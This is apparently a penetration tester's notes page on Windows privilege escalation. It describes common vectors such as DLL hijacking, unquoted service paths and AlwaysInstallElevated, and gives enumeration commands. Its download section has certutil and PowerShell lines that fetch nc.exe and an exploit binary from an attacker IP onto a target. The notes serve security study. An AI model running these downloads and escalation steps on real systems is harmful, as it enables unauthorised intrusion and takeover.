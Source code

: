 # Windows



Windows Privilege Escalation Vectors

{% hint style="info" %}
[https://wadcoms.github.io/](https://wadcoms.github.io/)
{% endhint %}

A few common vectors that could allow any user to increase their privilege levels on a Windows system are listed below.

* Stored Credentials: Important credentials can be saved in files by the user or in the configuration file of an application installed on the target system.
* Windows Kernel Exploit: The Windows operating system installed on the target system can have a known vulnerability that can be exploited to increase privilege levels.&#x20;
* Insecure File/Folder Permissions: In some situations, even a low privileged user can have read or write privileges over files and folders that can contain sensitive information.
* DLL Hijacking: Applications use DLL files to support their execution. You can think of these as smaller applications that can be launched by the main application. Sometimes DLLs that are deleted or not present on the system are called by the application. This error doesn't always result in a failure of the application, and the application can still run. Finding a DLL the application is looking for in a location we can write to can help us create a malicious DLL file that will be run by the application. In such a case, the malicious DLL will run with the main application's privilege level. If the application has a higher privilege level than our current user, this could allow us to launch a shell with a higher privilege level.&#x20;
* Unquoted Service Path: If the executable path of a service contains a space and is not enclosed within quotes, a hacker could introduce their own malicious executables to run instead of the intended executable.&#x20;
* Always Install Elevated: Windows applications can be installed using Windows Installer (also known as MSI packages) files. These files make the installation process easy and straightforward. Windows systems can be configured with the "AlwaysInstallElevated" policy. This allows the installation process to run with administrator privileges without requiring the user to have these privileges. This feature allows users to install software that may need higher privileges without having this privilege level. If "AlwaysInstallElevated" is configured, a malicious executable packaged as an MSI file could be run to obtain a higher privilege level.&#x20;
* Other software: Software, applications, or scripts installed on the target machine may also provide privilege escalation vectors.

Typically, privilege escalation will require you to follow a methodology similar to the one given below:&#x20;

1. Enumerate the current user's privileges and resources it can access.
2. If the antivirus software allows it, run an automated enumeration script such as winPEAS or PowerUp.ps1
3. If the initial enumeration and scripts do not uncover an obvious strategy, try a different approach (e.g. manually go over a checklist like the one provided [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md))

```
net user
systeminfo
systeminfo | findstr /B /C: "OS Name" /C:"OS Version"
wmic service list ##list services installed on the target system
net localgroup Administrators ## list who is in the local group Administrators
```

## Download files on Windows

`certutil.exe -urlcache -f http://10.10.16.13:8080/nc.exe C:\temp\nc.exe`

`powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.16.13:80/41020.exe','C:\Users\kostas\Desktop\41020.exe')"`

{% hint style="info" %}
Check if you get a shell with cmd.exe or PS
{% endhint %}



